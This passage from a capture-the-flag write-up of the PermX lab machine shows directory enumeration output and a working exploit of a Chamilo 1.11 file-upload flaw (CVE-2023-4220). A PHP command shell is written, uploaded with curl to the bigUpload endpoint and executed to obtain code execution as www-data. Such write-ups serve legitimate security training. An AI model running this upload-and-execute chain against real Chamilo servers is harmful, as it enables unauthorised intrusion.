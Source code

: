 ```bash
/LICENSE              (Status: 200) [Size: 35147]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/.                    (Status: 200) [Size: 19348]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/plugin               (Status: 301) [Size: 315] [--> http://lms.permx.htb/plugin/]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/custompages          (Status: 301) [Size: 320] [--> http://lms.permx.htb/custompages/]
Progress: 41809 / 43008 (97.21%)
===============================================================
2024/08/08 18:50:06 Finished
===============================================================
```

Checking out the `/documentation`, I found it's using `Chamilo 1.11`. A quick Google search for "Chamilo 1.11 exploit" led me to this [blog post](https://starlabs.sg/advisories/23/23-4220/) that detailed a file upload vulnerability (CVE-2023-4220). I followed the Proof-of-Concept (PoC) from the blog

First, I created a simple PHP reverse shell, which would execute the 'id' command, just to test if it works

```bash
$ echo '<?php system("id"); ?>' > rce.php
```

Then, I used `curl` to upload it to the vulnerable endpoint

```bash
$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

I used another curl command to execute it

```bash
$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The command was executed successfully! The `rce.php` file was in "/main/inc/lib/javascript/bigupload/files" directory

![img](/assets/img/PermX/4.webp)
